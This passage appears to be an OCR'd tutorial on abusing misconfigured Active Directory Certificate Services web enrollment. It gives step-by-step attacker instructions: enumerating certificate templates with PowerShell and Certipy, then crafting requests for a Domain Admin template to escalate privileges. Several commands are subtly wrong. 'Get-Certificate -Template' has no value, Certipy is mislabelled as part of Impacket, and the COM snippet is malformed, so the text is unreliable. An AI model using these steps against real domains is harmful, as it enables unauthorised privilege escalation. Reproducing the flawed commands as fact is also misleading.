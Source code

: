 ### **`3. Exploitation Process in Detail`**

Here’s a step-by-step breakdown of the exploitation:

### **Step 1: Prerequisites**

- **Access to Web Enrollment** page (`http://<CA-Server>/certsrv`).
- **Low-privileged user account**.
- **Misconfigured Certificate Templates** allowing unauthorized access.

### **Step 2: Enumerating Available Templates**

The attacker first needs to find the **certificate templates** that are available for request. The Web Enrollment page may allow them to do this by simply visiting the page.

### **Commands:**

using PowerShell to list certificate templates available to the user

```abap
# Using PowerShell to list certificate templates available to the user

Get-Certificate -Template
```

This command will list all the available certificate templates. The attacker will look for **high-privileged templates**, such as those associated with **Domain Admins**.

Alternatively, attackers can enumerate the templates using tools like **Impacket**.

```abap
Using Impacket to query for certificate templates
python3 [certipy.py](http://certipy.py/) enum -u <user> -p <password> -d <domain> -dc-ip <dc-ip>
```

### **`Step 3: Crafting the Malicious Certificate Request`**

Once the attacker identifies a **privileged template** (e.g., for **Domain Admin** certificates), they need to create a request for it.

1. **Using PowerShell**:
The attacker can use **PowerShell** to create a malicious request.

```abap
$certRequest = New-Object -ComObject X509Enrollment.CX509CertificateRequestPkcs10
$certRequest.InitializeFromTemplate(1, "DomainAdminTemplate")
$certRequest.Encode()
$certRequest.Submit()

```

```abap
**Using Certipy (Impacket)**:
Impacket’s **certipy** can also be used to craft and submit requests for certificates.

# Requesting a certificate for a domain controller template
python3 certipy.py req -u <user> -p <password> -t <template> -domain <domain> -dc-ip <dc-ip> 

```
